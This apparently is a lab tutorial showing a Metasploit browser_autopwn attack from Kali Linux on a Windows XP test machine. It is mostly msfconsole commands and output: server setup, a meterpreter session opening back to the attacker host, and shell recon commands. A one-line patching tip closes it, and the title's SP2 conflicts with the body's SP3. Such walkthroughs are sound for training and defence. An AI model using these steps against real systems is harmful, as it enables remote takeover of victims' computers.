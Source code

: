 Metasploit Browser Autopwn – Windows XP SP2
**Attacker:** Kali Linux<br>
**Victim:** Windows XP SP3 (Java 6u25, IE6)<br>
##Step 1 – Starting the Browser Autopwn Server
Run msfconsole, load the browser_autopwn module and set all required options.<br>
<code>
<div class="code">
<font color="silver">root@kali:~$</font> <b>msfconsole</b><br>
<font color="silver">msf ></font> <b>use auxiliary/server/browser_autopwn</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>set LHOST 192.168.1.12</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>set SRVPORT 80</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>set URIPATH /</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>run</b><br>
<br>
<font color="silver">[*] Starting exploit modules on host 192.168.1.12...</font><br>
<font color="silver">[*] Server started.</font>
</div>
</code>
The Browser Autopwn Server is now running and waiting for victims to browse to the url http://192.168.1.12<br>
##Step 2 – Pwning the Victim
On your Windows XP test machine (victim), browse to http://192.168.1.12.<br>
This will trigger the browser_autopwn module to serve the appropriate exploit and launch a meterpreter session.<br>
<code>
<div class="code">
<font color="silver">[*] Meterpreter session 1 opened (192.168.1.12:7777 -> </font><br>
<font color="silver">192.168.1.13:1045) at 2015-07-25 05:08:06 -0400</font><br>
<font color="silver">...</font><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font><b> sessions -i 1</b><br>
<font color="silver">[*] Starting interaction with 1...meterpreter ></font><b> shell</b><br>
<font color="silver">Microsoft Windows XP [Version 5.1.2600]</font><br>
<font color="silver">(C) Copyright 1985-2001 Microsoft Corp.</font><br>
<font color="silver">C:\Documents and Settings\IEUser\Desktop></font><b>echo %USERNAME%</b><br>
<font color="silver">Victim</font><br>
<br>
<font color="silver">C:\Documents and Settings\IEUser\Desktop></font><b>ipconfig</b><br>
<font color="silver">Windows IP Configuration</font><br>
<br>
<font color="silver">Ethernet adapter Local Area Connection:</font><br>
<br>
<font color="silver">Connection-specific DNS Suffix . : Home</font><br>
<font color="silver">IP Address. . . . . . . . . . . . : 192.168.1.13</font><br>
<font color="silver">Subnet Mask . . . . . . . . . . . : 255.255.255.0</font><br>
<font color="silver">Default Gateway . . . . . . . . . : 192.168.1.1</font><br>
<br>
<font color="silver">C:\Documents and Settings\IEUser\Desktop></font><br>
</div>
</code>
You now have shell access to the Windows XP SP3 Victim with the same access as the user who navigated to the exploit url.<br>
##Solution
Keep your software fully updated (e.g. Windows, Web Browsers, Java, etc…) and uninstall unused applications.

Tags: metasploit
